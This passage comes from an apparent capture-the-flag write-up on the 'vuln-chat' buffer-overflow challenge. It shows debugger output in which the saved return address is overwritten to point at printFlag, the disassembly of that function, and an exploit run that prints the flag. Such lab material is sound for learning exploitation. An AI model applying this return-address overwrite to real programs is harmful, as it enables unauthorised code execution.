 ```bash
gef➤  x/20wx $esp
0xff9c60b0:	0xff9c60e3	0xff9c60bb	0x42cb74be	0x42424242
0xff9c60c0:	0x42424242	0x42424242	0x42424242	0x42424242
0xff9c60d0:	0x42424242	0x42424242	0x42424242	0x42424242
0xff9c60e0:	0x42424242	0x42424242	0x42424242	0x0804856b
0xff9c60f0:	0x00000000	0xff9c61a4	0xff9c61ac	0xff9c6110
gef➤  info frame
Stack level 0, frame at 0xff9c60f0:
 eip = 0x8048639 in main; saved eip = 0x804856b
 Arglist at 0xff9c60e8, args: 
 Locals at 0xff9c60e8, Previous frame's sp is 0xff9c60f0
 Saved registers:
  ebp at 0xff9c60e8, eip at 0xff9c60ec

```
This is much better! we can see that the return address now points to 0x0804856b which is the start of printFlag. If we continue to step through the debugging session we'll see the instructions for printFlag:

```bash
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048654 <main+00ca>      add    esp, 0x4
    0x8048657 <main+00cd>      mov    eax, 0x0
    0x804865c <main+00d2>      leave  
 →  0x804865d <main+00d3>      ret    
   ↳   0x804856b <printFlag+0000> push   ebp
       0x804856c <printFlag+0001> mov    ebp, esp
       0x804856e <printFlag+0003> push   0x80486f0
       0x8048573 <printFlag+0008> call   0x8048420 <system@plt>
       0x8048578 <printFlag+000d> add    esp, 0x4
       0x804857b <printFlag+0010> push   0x8048704

```
If we run the script without the debugging session we see the flag printed:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/CallFunction/Vulnchat$ python3 exploit_vulnchat.py
[+] Starting local process './vuln-chat': pid 11312
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vuln-chat', '-p', '11312', '-x', '/tmp/pwnlib-gdbscript-d30v1fdv.gdb']
[+] Waiting for debugger: Done
b'AAAAAAAAAAAAAAAAAAAA%53s'
b"----------- Welcome to vuln-chat -------------\nEnter your username: Welcome AAAAAAAAAAAAAAAAAAAA%53s!\nConnecting to 'djinn'\n--- 'djinn' has joined your chat ---\ndjinn: I have the information. But how do I know I can trust you?"
[*] Switching to interactive mode

AAAAAAAAAAAAAAAAAAAA%53s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely

```
